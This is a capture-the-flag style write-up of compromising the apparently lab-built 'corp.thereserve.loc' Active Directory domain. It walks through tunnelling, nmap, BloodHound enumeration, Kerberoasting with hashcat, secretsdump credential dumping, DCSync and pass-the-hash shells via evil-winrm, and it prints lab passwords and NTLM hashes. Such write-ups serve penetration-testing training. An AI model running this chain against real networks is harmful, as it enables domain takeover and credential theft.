









# Into the corp domain



We can add the news hosts :

```shell
echo "10.200.121.21    wrk1.corp.thereserve.loc" >> /etc/hosts
echo "10.200.121.22    wrk2.corp.thereserve.loc" >> /etc/hosts
echo "10.200.121.31    srv1.corp.thereserve.loc" >> /etc/hosts
echo "10.200.121.32    srv2.corp.thereserve.loc" >> /etc/hosts
echo "10.200.121.102   corpdc.corp.thereserve.loc" >> /etc/hosts
```

## Access to internal network

### SSH tunnel (prefered)

```shell
ssh -D 1080 ubuntu@thereserve-web.thm -i ./web-key  -N          
```

Then we can execute aplicaton witth proxychains.

In `/etc/proxychains.conf`, ensure to have at the end of file :

```text
[ProxyList]
# add proxy here ...
socks5	127.0.0.1   1080
```

### VPN

Another possible way to acces the network it to use openvpn file found on the VPN server with previously updated configuration:

```shell
openvpn corpUsername-118.ovpn
```

Since there seem to be a bad subnet configuration, we can add it manually in the console :

```shell
ip route add 10.200.121.21 via 12.100.1.1 dev tun0
ip route add 10.200.121.22 via 12.100.1.1 dev tun0
```

or add it in the ovpn file as :

```text
route 10.200.121.21 255.255.255.255
route 10.200.121.22 255.255.255.255
```

When opening the VPN again, the connexion re-open in loop, because there is too many users using this VPN :

```text
Initialization Sequence Completed
Connection reset, restarting [0]
SIGUSR1[soft,connection-reset] received, process restarting
Restart pause, 5 second(s)
```

## wrk1

```shell
proxychains nmap -p- wrk1.corp.thereserve.loc -Pn
```

```text
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-22 23:42 CEST
Nmap scan report for 10.200.121.21
Host is up (0.040s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2178e279d393eef9aa7094ec01b3a58f (RSA)
|   256 e0f7b667c993b5740f0a83ffef55c89a (ECDSA)
|_  256 bd830ce3b44f78f2e34a52033ca5ce58 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WRK1.corp.thereserve.loc
| Not valid before: 2023-01-09T05:17:03
|_Not valid after:  2023-07-11T05:17:03
|_ssl-date: 2023-05-22T21:52:09+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: CORP
|   NetBIOS_Domain_Name: CORP
|   NetBIOS_Computer_Name: WRK1
|   DNS_Domain_Name: corp.thereserve.loc
|   DNS_Computer_Name: WRK1.corp.thereserve.loc
|   DNS_Tree_Name: thereserve.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2023-05-22T21:51:30+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-22T21:51:31
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   32.89 ms 1.mubc.chcg.chcgil24.dsl.att.net (12.100.1.1)
2   56.11 ms 10.200.121.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 580.97 seconds
```

Open the RDP connexion with laura.wood account :

```shell
proxychains xfreerdp /u:laura.wood /p:Password1@ /d:corp.thereserve.loc /v:10.200.121.21 /size:1680x783
```

We can open a remote desktop session, but this user is not administrator.

Let's begin by enumerate the AD to fine our path.

## Domain corp.thereserve.loc enumeration

```shell
domain=corp.thereserve.loc
username=laura.wood
password='Password1@'
target_ip=wrk1.corp.thereserve.loc
domain_dc=10.200.121.102

proxychains -q bloodhound-python -d $domain -u $username -p $password -ns $domain_dc -c all --dns-tcp --zip
```

Then open Bloodhound :

```shell
neo4j start
bloodhound
```

Upload the generated zip file, and we can start to analyse

Since we have compromised laura.wood, and mohamad.hamed, we can mark them as owned.

There is a trust relationship with the parent domain :



Also for accounts with DCSync rights :



In the analysis tab, web query for "List all Kerberoastable Accounts" :



- svcoctober
- svcedr
- svcmonitor
- svcbackups
- svcscanning
- krbgt

The "svcbackups" service account have DCSync rights !

## Kerberoast on service accounts

References:

- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
- https://www.thehacker.recipes/ad/movement/kerberos/kerberoast

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets are encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.
You can know that a user account is being used as a service because the property "ServicePrincipalName" is not null.

GetUserSPNs.py -request -dc-ip 10.200.121.102 corp.thereserve.loc/laura.wood:"Password1@" -outputfile hashes.kerberoast 

Let's try to crack the hash :

cat hashes.kerberoast | grep svcBackups > svcbackup.hash
hashcat -m 13100 svcbackup.hash /usr/share/wordlists/rockyou.txt 

But no luck with svcBackup.

Let's try with other service accounts :

hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt 

And we have a match on svcScanning: Password1!

This service do not seem to have more privileges atr first sight.

We can try to re-enumerate AD with this user

## Domain corp.thereserve.loc enumeration (again)

```shell
domain=corp.thereserve.loc
username=svcScanning
password='Password1!'
target_ip=wrk1.corp.thereserve.loc
domain_dc=10.200.121.102

proxychains -q bloodhound-python -d $domain -u $username -p $password -ns $domain_dc -c all --dns-tcp --zip
```

Analysing this new database, it appears that this service account is a high value to go to the domain controler :



So this service account have access to SERVER1 because it is a memeber of the group "SERVICES" that has a CanPSRemote capability on SERVER1

We can connect in RDP to this Server 1 :

```shell
proxychains xfreerdp /u:svcscanning /p:'Password1!' /d:corp.thereserve.loc /v:10.200.118.31
```



svcscanning is administrator on this server



## Enumerate secrets on Server1

```shell
proxychains secretsdump.py 'corp.thereserve.loc/svcscanning:Password1!'@10.200.118.31
```

```text
Impacket for Exegol - v0.10.1.dev1+20230318.114933.11c51f7 - Copyright 2022 Fortra - forked by ThePorgs

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.200.118.31:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x90cf5c2fdcffe9d25ff0ed9b3d14a846
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMSetup:1008:aad3b435b51404eeaad3b435b51404ee:d37f688ca5172b5976b714a8b54b40f4:::
HelpDesk:1009:aad3b435b51404eeaad3b435b51404ee:f6ca2f672e731b37150f0c5fa8cfafff:::
sshd:1010:aad3b435b51404eeaad3b435b51404ee:48c62694fd5bbca286168e2199f9af49:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.THERESERVE.LOC/Administrator:$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca: (2023-04-01 03:13:47)
CORP.THERESERVE.LOC/svcScanning:$DCC2$10240#svcScanning#d53a09b9e4646451ab823c37056a0d6b: (2023-05-26 18:56:39)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CORP\SERVER1$:aes256-cts-hmac-sha1-96:85d61453e0c42c78171f3e0d31902ebed42ef0e3601f070640d1a92be4527a6b
CORP\SERVER1$:aes128-cts-hmac-sha1-96:1c6a11defdb5701c44dc685af1be6b52
CORP\SERVER1$:des-cbc-md5:ec311346ef26cb31
CORP\SERVER1$:plain_password_hex:b70a5278ff70a2f748330cc20a7247f90c405f2fb0d57d077355286f936d15b971576dc842651fde41781658a7eba6806c449f22086c955698b14292731b346bc7b8dd6236be126e4e85d652e71408ac4dd23556f3730f56401b5f5a6340583c4bbc48c38b669251e54f61b8674c8d30d4f0c7b1fb520d57903d7f6dfa333e246a5e9ef5adbdfd51ddc22f6a0815233f781def24a2211210d8a38ba4a8d8c31ea6f3db09c8202add8bb2cb36bedfa65903b801ea2caddf785bd25e94524c8aed9babfdaff6cd80f93a3ca10f60386131c8bcaeef4d9bf487aed8e1365ca8f78372ff21110f5eb941266ad51af5a24d62
CORP\SERVER1$:aad3b435b51404eeaad3b435b51404ee:992bd8a98611ccf69caa87864455e568:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb4cfb5032a98c1b279c92264915da1fd3d8b1a0d
dpapi_userkey:0x3cddfc2ba786e51edf1c732a21ffa1f3d19aa382
[*] NL$KM 
 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...
NL$KM:8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2
[*] _SC_SYNC 
svcBackups@corp.thereserve.loc:q9nzssaFtGHdqUV3Qv6G
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

So here we have the hash for local Administrator :

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::
```

And a reference to the domain Administrator account :

```text
CORP.THERESERVE.LOC/Administrator:$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
```

This is a DCC2 hash: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials

We can give a try to crack it with :

```shell
hashcat -m2100 '$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

But no luck.

We also have a reference to svcbackups:

```text
svcBackups@corp.thereserve.loc:q9nzssaFtGHdqUV3Qv6G
```

This do not seem to be a hash, but rather a plain password !!

Let's use this account enumerate 

```shell
proxychains secretsdump.py 'corp.thereserve.loc/svcbackups:q9nzssaFtGHdqUV3Qv6G'@10.200.118.102 -outputfile corpdc.hashes
```

And we get the NTLM hashes of all accounts on the AD, including the domain Administrator :

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d3d4edcc015856e386074795aea86b3e:::
```

Domain Administrator cannot use RDP, but we can still use WinRM to get a shell using the hash:

```shell
proxychains evil-winrm -i 10.200.118.102 -u Administrator -H d3d4edcc015856e386074795aea86b3e
```

```
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

## Get the admin on remaining T2

Bloodhound can can us all administrators of Tier 2:



So get one of these admins :

```bash
grep t2_ corpdc.hashes.ntds
```

Then use one to connect to Tier 2 as admin :

```bash
proxychains evil-winrm -i 10.200.118.21 -u t2_jordan.hutchinson -H 4aa857a1eef8ee14100355066f9a6d53
```




